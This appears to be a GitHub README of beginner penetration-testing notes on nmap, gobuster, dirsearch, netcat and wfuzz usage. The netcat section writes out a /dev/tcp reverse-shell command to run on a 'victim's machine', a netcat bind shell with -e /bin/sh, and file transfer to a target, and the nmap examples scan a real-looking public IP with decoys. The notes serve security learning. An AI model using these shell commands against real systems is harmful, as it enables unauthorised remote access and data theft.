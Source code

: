## Some Usefull Tools of today


#### Nmap (scanning & scripts)
```sudo nmap -sS 14.139.38.108 ```  – scans top 1000 ports
```sudo nmap -sS -p 80,21,8080 14.139.38.108``` -- for specific ports
``` sudo nmap -sS -O xx.xxx.xx.xxx``` -O for scanning OS of host
```sudo nmap -sS -D 14.139.38.110 14.139.38.108```   --D for deco

**Using scripts**
```nmap –script vuln 14.139.38.108``` – vuln for running all scripts

**Refer**
[Link 1](https://www.stationx.net/nmap-cheat-sheet/), [Link 2](https://d00mfist.gitbooks.io/ctf/content/port_scanning.html)
[cheatsheet](https://cdn.comparitech.com/wp-content/uploads/2019/06/Nmap-Cheat-Sheet.pdf)

**Alternate options**
- [autorecon](https://github.com/Tib3rius/AutoRecon)
- [rustrecon](https://github.com/RustScan/RustScan)


#### Gobuster
eg.
```gobuster dir -u http://xx.xxx.xx.xxx/ -w /path/to/wordlist.txt -x .html,.php,.txt,.png```
- **dir** for telling to do directory scan
- **-u** for URL scan
- **-w** for wordlist to use for scan
- **-x** for file extensions

```
Usage:
  gobuster dns [flags]

Flags:
  -d, --domain string      The target domain
  -h, --help               help for dns
  -r, --resolver string    Use custom DNS server (format server.com or server.com:port)
  -c, --show-cname         Show CNAME records (cannot be used with '-i' option)
  -i, --show-ips           Show IP addresses
      --timeout duration   DNS resolver timeout (default 1s)
      --wildcard           Force continued operation when wildcard found

Global Flags:
      --delay duration    Time each thread waits between requests (e.g. 1500ms)
      --no-color          Disable color output
      --no-error          Don't display errors
  -z, --no-progress       Don't display progress
  -o, --output string     Output file to write results to (defaults to stdout)
  -p, --pattern string    File containing replacement patterns
  -q, --quiet             Don't print the banner and other noise
  -t, --threads int       Number of concurrent threads (default 10)
  -v, --verbose           Verbose output (errors)
  -w, --wordlist string   Path to the wordlist
  ```
  ```
Usage:
  gobuster dir [flags]

Flags:
  -f, --add-slash                       Append / to each request
  -c, --cookies string                  Cookies to use for the requests
  -d, --discover-backup                 Also search for backup files by appending multiple backup extensions
      --exclude-length ints             exclude the following content length (completely ignores the status). Supply multiple times to exclude multiple sizes.
  -e, --expanded                        Expanded mode, print full URLs
  -x, --extensions string               File extension(s) to search for
  -r, --follow-redirect                 Follow redirects
  -H, --headers stringArray             Specify HTTP headers, -H 'Header1: val1' -H 'Header2: val2'
  -h, --help                            help for dir
      --hide-length                     Hide the length of the body in the output
  -m, --method string                   Use the following HTTP method (default "GET")
  -n, --no-status                       Don't print status codes
  -k, --no-tls-validation               Skip TLS certificate verification
  -P, --password string                 Password for Basic Auth
      --proxy string                    Proxy to use for requests [http(s)://host:port]
      --random-agent                    Use a random User-Agent string
      --retry                           Should retry on request timeout
      --retry-attempts int              Times to retry on request timeout (default 3)
  -s, --status-codes string             Positive status codes (will be overwritten with status-codes-blacklist if set)
  -b, --status-codes-blacklist string   Negative status codes (will override status-codes if set) (default "404")
      --timeout duration                HTTP Timeout (default 10s)
  -u, --url string                      The target URL
  -a, --useragent string                Set the User-Agent string (default "gobuster/3.2.0")
  -U, --username string                 Username for Basic Auth

Global Flags:
      --delay duration    Time each thread waits between requests (e.g. 1500ms)
      --no-color          Disable color output
      --no-error          Don't display errors
  -z, --no-progress       Don't display progress
  -o, --output string     Output file to write results to (defaults to stdout)
  -p, --pattern string    File containing replacement patterns
  -q, --quiet             Don't print the banner and other noise
  -t, --threads int       Number of concurrent threads (default 10)
  -v, --verbose           Verbose output (errors)
  -w, --wordlist string   Path to the wordlist
  ```
- Refer [link](https://hackertarget.com/gobuster-tutorial/)

**Alternate options**

- [**Dirsearch**](https://github.com/maurosoria/dirsearch)
[reference](https://www.hackingarticles.in/comprehensive-guide-on-dirsearch/)
some commands for reference
```dirsearch -u http://target--simple-report=report``` 
```dirsearch -u http://target/ --json-report=report```
```dirsearch -e php,html,js -u https://target -w /path/to/wordlist```   -r for recursive scan
```./dirsearch.py -u http://testphp.vulnweb.com/ -s 10```   -s for delay


#### Netcat

**netcat can be used to**
- scan to see if a port is open on a remote system
- pull the banner from a remote system
- connect to a network service manually
- remote administration

__Few key switches__
- **-e** execute
- **-l** listen mode
- **-n** numeric mode (no DNS. Its faster)
- **-p** designates the port
- **-u** UDP mode
- **-v** verbose output

##### Using netcat
``` ```
__for chat__

```nc -vn 192.168.1.103 22``` Opening TCP connection between two machines for ```chat```

Netcat is capable of creating a simple TCP or UDP connection between two computers and then open a communication channel between them.

```nc -l -p 1337```  open a listener on the remote system
```nc 192.168.1.105 1377```  connect to that listener from a remote machine

__Transferring Files with Netcat__

One of the simple wonders of netcat is its ability to transfer files between computers. By creating this simple connection, we can then use that connection to transfer files between two computers. This can be extremely useful as a network administrator and even more useful as a hacker. Netcat can be used to upload and download files from and to the target system.

``` nc -l -p 6996``` open a listener on the remote system

Next, let’s send the file to the remote system.

```nc 192.168.1.103 6996 < filename```  < to direct the file to netcat

Finally, go back to our listening system and we should find that the file has been transferred and appears on the screen!

__Remote Administration with netcat__

Probably the most malicious use of netcat *and the most effective for the hacker* is the ability to use netcat for remote administration. We can use netcat’s ability to execute commands to give the **remote connection a shell on the listening system**. Ways to do it ?? [keep exploring....]

```sudo nc -lvnp 8809``` for listening (in general)
and when the connection command is executed on victim's machine we'll get it's shell access.

```sh -i 5<> /dev/tcp/10.10.10.10/9001 0<&5 1>&5 2>&5``` _the_ connection command

```nc -l -p6996 -e /bin/sh```  _explore **this** one_ ;)

**Alternate options**

- [Rustcat](https://github.com/maurosoria/dirsearch)
- [Pwncat](https://www.hackingarticles.in/comprehensive-guide-on-dirsearch/)

I ain't gonna give explainations for these ;() , jzz find em 🤷‍♂️


#### Simplehttpserver

```sudo python -m http.server 80```


#### Wfuzz

some commands for reference
``` wfuzz -w path/to/wordlist.txt --hc 404,403 http://website.com/FUZZ ```
- -w for specifying wordlist path
- --hc for hiding responses having error codes 404, 403
- **FUZZ** word used for telling where to use wordlist

for passing cookies in the request
```wfuzz -z file,path/to/wordlist.txt -b cookie=value1 -b cookie2=value2 http://testphp.vulnweb.com/FUZZ```

for passing headers
```wfuzz -z file,path/to/wordlist.txt -H "myheader: headervalue" -H "User-Agent: palemoon" http://example.com/FUZZ```

Additional filters can also be used for filtering displayed requests.
```--filter "c=200 and l>197"``` will filter to show only status code 200 , length > 197

[explore more](https://github.com/xmendez/wfuzz)


###### Things to explore
- what is hosts file ??
- 3-way handshake
- cryptcat

###### Explore later
- Rlwrap